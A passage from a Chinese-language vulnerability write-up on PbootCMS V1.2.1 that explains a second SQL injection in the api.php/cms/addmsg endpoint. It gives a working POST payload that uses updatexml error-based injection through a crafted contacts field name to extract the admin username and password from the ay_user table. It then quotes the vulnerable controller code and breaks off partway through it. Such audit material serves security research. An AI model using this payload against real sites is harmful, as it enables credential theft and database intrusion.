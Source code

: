 这里我把关键代码放出来了，可以看到接收\$where以后直接仍进了数据库进行操作造成了注入

0x10.2 接口注入二
-----------------

### 0x10.2.1 漏洞利用

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addmsg
    post:
        contacts[contentl`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
        mobile = 111
        content = 111

![](resource/PbootCMSsql注入/media/rId50.png)

0x10.2.2 漏洞讲解
文件：PbootCMS-V1.2.1\\apps\\api\\controller\\CmsController.php
方法：addmsg(

    // 新增留言   注入
        public function addmsg()
        {
            if ($_POST) {

                // 读取字段
                if (! $form = $this->model->getFormField(1)) {
                    json(0, '接收表单不存在任何字段，请核对后重试！');
                }

                // 接收数据
                $mail_body = '';
                foreach ($form as $value) {
                    $field_data = post($value->name);
                    if ($value->required && ! $field_data) {
                        json(0, $value->description . '不能为空！');
                    } else {
                        $data[$value->name] = post($value->name);
                        $mail_body .= $value->description . '：' . post($value->name) . '<br>';
                    }
                }

                // 设置其他字段
                if ($data) {
                    $data['acode'] = get('acode', 'var') ?: $this->lg;
                    $data['user_ip'] = ip2long(get_user_ip());
                    $data['user_os'] = get_user_os();
                    $data['user_bs'] = get_user_bs();
                    $data['recontent'] = '';
                    $data['status'] = 0;
                    $data['create_user'] = 'api';
                    $data['update_user'] = 'api';
                }
